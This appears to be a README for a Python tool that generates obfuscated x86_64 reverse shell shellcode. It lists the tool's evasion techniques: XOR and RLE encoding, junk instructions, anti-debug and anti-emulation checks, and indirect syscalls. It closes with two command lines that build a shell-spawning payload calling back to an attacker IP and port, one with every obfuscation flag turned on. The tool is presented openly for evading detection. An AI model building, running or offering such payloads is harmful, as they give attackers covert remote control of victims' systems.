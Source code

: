 # YAPT: yet another payload tool #

This Python script is a x86_64 reverse shell shellcode generator that builds highly obfuscated payloads using several evasion techniques. Here’s an overview of its main components and functionality:

Key Functionalities
Assembly Code Handling:
The script uses pwntools to assemble custom assembly snippets. A helper function removes comments from assembly strings before assembling them, ensuring clean code generation.

Encryption & Encoding Options:
It offers simple byte-wise XOR encryption and a rolling XOR variant. Additionally, there’s an option to apply Run-Length Encoding (RLE) to the payload. When RLE is enabled, a self-decoding stub is generated to decompress the payload at runtime.

Polymorphic Junk Insertion:
To further obfuscate the payload, the script can prepend random “junk” assembly instructions that have no functional effect but help evade signature-based detections.

Anti-Debug and Anti-Emulation:
Optional code blocks perform anti-debugging checks (using the ptrace system call) and anti-emulation techniques (using timing checks with rdtsc and cpuid instructions).

Reverse Shell Payload:
The core functionality sets up a TCP socket to a given IP and port, redirects standard I/O (stdin, stdout, stderr) using dup2, and then executes a specified executable (default is /bin/sh) via an execve system call.

Additional Obfuscation:
The script includes options for obfuscating the executable path in memory (via XOR) and for using indirect system calls through a “syscall gadget”, which further complicates static analysis.

Workflow Summary
Argument Parsing:
The script uses argparse to accept parameters for the attacker's IP, port, the executable path, and various flags to enable or disable obfuscation features.

Payload Generation:
Based on the provided flags, it builds an assembly payload that includes the reverse shell logic along with optional anti-debug/anti-emulation, stack pivoting, and junk insertion.

Optional Encoding & Encryption:
After generating the core payload, it may be further processed using RLE encoding and/or XOR-based encryption, depending on the user’s choices.

Output:
The final shellcode is printed in a format suitable for embedding in C or Python code.

This script is designed for scenarios where evasion from detection is critical, combining multiple layers of obfuscation and anti-analysis techniques into one payload generation process.


Basic reverse shell:
`python3 main.py --ip 192.168.1.100 --port 4444`

Obfuscated version with multiple techniques:
`python3 main.py --ip 192.168.1.100 --port 4444 --junk --obfuscate-path --anti-debug --rle --xor-key 0xAA`
